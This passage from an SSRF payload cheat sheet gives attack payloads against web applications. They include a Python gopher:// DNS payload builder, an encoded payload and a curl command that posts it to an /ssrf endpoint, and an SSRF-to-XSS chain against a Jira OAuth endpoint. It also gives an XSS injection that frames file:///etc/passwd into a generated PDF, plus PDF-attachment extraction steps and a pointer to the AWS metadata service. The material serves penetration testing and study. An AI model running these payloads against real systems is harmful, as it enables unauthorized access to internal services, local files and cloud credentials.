 ```py
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```


## SSRF to XSS 

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

```bash
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## SSRF from XSS

### Using an iframe

The content of the file will be integrated inside the PDF as an image or text.

```html
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

### Using an attachment

Example of a PDF attachment using HTML 

1. use `<link rel=attachment href="URL">` as Bio text
2. use 'Download Data' feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. `cat attachment.bin`

## SSRF URL for Cloud Instances

### SSRF URL for AWS

The AWS Instance Metadata Service is a service available within Amazon EC2 instances that allows those instances to access metadata about themselves. - [Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)
